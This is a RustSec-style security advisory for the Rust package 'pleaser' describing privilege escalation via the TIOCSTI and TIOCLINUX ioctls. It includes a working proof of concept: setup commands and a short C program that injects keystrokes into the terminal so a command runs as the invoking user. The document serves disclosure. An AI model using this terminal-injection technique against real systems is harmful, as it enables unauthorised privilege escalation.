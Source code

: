 ```toml
[advisory]
id = "RUSTSEC-0000-0000"
package = "pleaser"
date = "2023-04-29"
url = "https://gitlab.com/edneville/please/-/issues/13"
categories = ["privilege-escalation"]
keywords = []
cvss = "CVSS:3.1/AV:L/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N"

[versions]
patched = []

[affected]
```

# Vulnerable to privilege escalation using ioctls TIOCSTI and TIOCLINUX

please is vulnerable to privilege escalation using ioctls TIOCSTI
and TIOCLINUX on systems where they are not disabled.

Here is how to see it in action:

```
$ cd "$(mktemp -d)"
$ git clone --depth 1 https://gitlab.com/edneville/please.git
$ cd please/
$ git rev-parse HEAD  # f3598f8fae5455a8ecf22afca19eaba7be5053c9
$ cargo test && cargo build --release
$ echo "[${USER}_as_nobody]"$'\nname='"${USER}"$'\ntarget=nobody\nrule=.*\nrequire_pass=false' | sudo tee /etc/please.ini
$ sudo chown root:root ./target/release/please
$ sudo chmod u+s ./target/release/please
$ cat <<TIOCSTI_C_EOF | tee TIOCSTI.c
#include <sys/ioctl.h>

int main(void) {
  const char *text = "id\n";
  while (*text)
    ioctl(0, TIOCSTI, text++);
  return 0;
}
TIOCSTI_C_EOF
$ gcc -std=c99 -Wall -Wextra -pedantic -o /tmp/TIOCSTI TIOCSTI.c
$ ./target/release/please -u nobody /tmp/TIOCSTI  # runs id(1) as ${USER} rather than nobody
```

Please note that:

This affects both the case where root wants to drop privileges as well when non-root wants to gain other privileges.
